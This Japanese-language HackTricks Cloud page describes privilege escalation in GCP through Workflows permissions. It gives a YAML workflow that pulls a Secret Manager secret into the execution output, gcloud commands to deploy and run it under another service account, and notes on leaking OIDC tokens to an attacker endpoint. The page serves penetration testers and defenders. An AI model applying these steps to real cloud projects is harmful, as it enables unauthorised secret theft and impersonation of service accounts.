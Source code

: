 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

基本情報:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

私の知る限り、Workflowに攻撃されたSAの資格情報を含むメタデータエンドポイントへのアクセスでシェルを取得することは不可能です。しかし、Workflow内で実行するアクションを追加することで、SAの権限を悪用することは可能です。

コネクタのドキュメントを見つけることができます。例えば、これは[**Secretmanagerコネクタのページ**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**です。** サイドバーには他のいくつかのコネクタが見つかります。

ここに秘密を印刷するコネクタの例があります:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
CLIからの更新:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
`ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`というエラーが表示された場合は、**1分待って再試行してください**。

ウェブアクセスがない場合でも、次の方法でWorkflowの実行をトリガーして確認することができます：

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
以前の実行の出力を確認して、機密情報を探すこともできます。
{% endhint %}

`PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` のようなエラーが発生しても、その権限がないために、ワークフローは生成されています。

### OIDCトークンの漏洩（およびOAuth？）

[**ドキュメントによると**](https://cloud.google.com/workflows/docs/authenticate-from-workflow)、ワークフローステップを使用して、OAuthまたはOIDCトークンを含むHTTPリクエストを送信することが可能です。しかし、[Cloud Scheduler](gcp-cloudscheduler-privesc.md)の場合と同様に、OAuthトークンを含むHTTPリクエストはホスト`.googleapis.com`に送信する必要があります。

{% hint style="danger" %}
したがって、**ユーザーが制御するHTTPエンドポイントを指定することでOIDCトークンを漏洩させることは可能ですが、**OAuthトークンを漏洩させるにはその保護を**バイパスする必要があります。しかし、**コネクタまたはOAuthトークンを使用したHTTPリクエストを介して、SAの代理で任意のGCP APIに連絡してアクションを実行することは依然として可能です。**
{% endhint %}

#### OAuth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

この権限を使用すると、`workflows.workflows.create`の代わりに、既存のワークフローを更新し、同じ攻撃を実行することが可能です。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

